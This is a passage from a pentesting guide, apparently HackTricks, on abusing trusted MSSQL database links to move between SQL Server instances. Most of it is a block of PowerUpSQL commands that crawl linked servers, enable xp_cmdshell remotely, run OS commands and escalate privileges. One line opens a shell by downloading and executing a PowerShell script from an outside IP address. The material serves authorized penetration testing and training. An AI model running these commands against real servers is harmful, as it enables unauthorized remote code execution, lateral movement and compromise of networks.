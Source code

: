 [1433 - Pentesting MSSQL - Microsoft SQL Server](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html)

### [MSSQL Trusted Links](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#mssql-trusted-links) <a href="#mssql-trusted-links" id="mssql-trusted-links"></a>

If a MSSQL instance is trusted (database link) by a different MSSQL instance. If the user has privileges over the trusted database, he is going to be able to **use the trust relationship to execute queries also in the other instance**. This trusts can be chained and at some point the user might be able to find some misconfigured database where he can execute commands.

**The links between databases work even across forest trusts.**

#### [Powershell Abuse](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#powershell-abuse) <a href="#powershell-abuse" id="powershell-abuse"></a>

```bash
#Look for MSSQL links of an accessible instance
Get-SQLServerLink -Instance dcorp-mssql -Verbose #Check for DatabaseLinkd > 0

#Crawl trusted links, starting from the given one (the user being used by the MSSQL instance is also specified)
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Verbose

#If you are sysadmin in some trusted link you can enable xp_cmdshell with:
Get-SQLServerLinkCrawl -instance "<INSTANCE1>" -verbose -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "<INSTANCE2>"'

#Execute a query in all linked instances (try to execute commands), output should be in CustomQuery field
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Query "exec master..xp_cmdshell 'whoami'"

#Obtain a shell
Get-SQLServerLinkCrawl -Instance dcorp-mssql  -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1'')"'

#Check for possible vulnerabilities on an instance where you have access
Invoke-SQLAudit -Verbose -Instance "dcorp-mssql.dollarcorp.moneycorp.local"

#Try to escalate privileges on an instance
Invoke-SQLEscalatePriv –Verbose –Instance "SQLServer1\Instance1"

#Manual trusted link queery
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select * from openquery(""sql2.domain.io"", 'select * from information_schema.tables')"
## Enable xp_cmdshell and check it
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'SELECT * FROM OPENQUERY("sql2.domain.io", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [sql.rto.external]'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [sql.rto.external]'
## If you see the results of @@selectname, it worked
Get-SQLQuery -Instance "sql.rto.local,1433" -Query 'SELECT * FROM OPENQUERY("sql.rto.external", ''select @@servername; exec xp_cmdshell ''''powershell whoami'''''');'
```
